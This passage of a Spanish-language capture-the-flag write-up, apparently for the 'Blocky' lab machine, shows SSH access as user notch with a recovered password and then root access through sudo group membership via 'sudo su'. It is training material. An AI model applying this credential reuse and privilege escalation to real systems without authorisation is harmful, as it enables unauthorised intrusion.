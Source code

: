 ### Trying access on SSH with recently found password

Probamos de acceder al equipo mediante ssh con el usuario `root` y no nos funcionó el acceso, mientras que con el usuario `notch` pudimos acceder sin problemas. Logramos visualizar la flag de **user.txt**.

```bash
❯ ssh root@blocky.htb
root@blocky.htb's password: 
Permission denied, please try again.
root@blocky.htb's password: 

❯ ssh notch@blocky.htb
notch@blocky.htb's password: 
Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-62-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

7 packages can be updated.
7 updates are security updates.


Last login: Fri Jul  8 07:16:08 2022 from 10.10.14.29
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

notch@Blocky:~$ ls
minecraft  user.txt
notch@Blocky:~$ cat user.txt 
d2509c6d347*********************
```

## Privilege Escalation

### Abusing sudoers privilege

Al revisar los grupos en los que se encuentra el usuario `notch`, verificamos que forma parte del grupo `sudo`. Tratamos de acceder como usuario `sudo` y logramos obtener acceso como usuario `root` y visualizar la flag de **root.txt**.

{% hint style="info" %}
El grupo sudo en Linux permite a los usuarios ejecutar comandos como superusuario (root) usando sudo. Los usuarios dentro de este grupo pueden obtener privilegios elevados temporalmente sin necesidad de cambiar a root.
{% endhint %}

```bash
notch@Blocky:~$ id
uid=1000(notch) gid=1000(notch) groups=1000(notch),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
notch@Blocky:~$ sudo su
[sudo] password for notch: 
root@Blocky:/home/notch# cd /root
root@Blocky:~# cat root.txt 
828a54064***********************
```
